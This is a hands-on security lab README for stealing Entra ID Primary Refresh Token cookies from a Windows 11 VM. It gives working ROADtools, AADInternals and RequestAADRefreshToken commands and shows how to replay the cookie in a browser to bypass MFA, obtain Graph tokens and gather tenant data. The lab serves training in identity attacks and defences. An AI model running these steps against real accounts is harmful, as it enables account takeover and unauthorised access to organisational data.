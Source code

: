 # Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you see `AzureAdPrt : YES`
   ![prt](prtexists.png)

3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie

Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows

**Note:** PRT Cookie can only be used once and its TTL is short

#### Option 1: Steal PRT Cookie using roadrecon tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadtx browserprtauth -url https://entra.microsoft.com --prt-cookie <eyJh... PRT COOKIE>
```

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool

Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
Import-Module AADInternals
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken
```

### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

See demo video [here](stealPrtCookie.mp4)

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for msgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

### Feeling comfortable? go to the next lab!
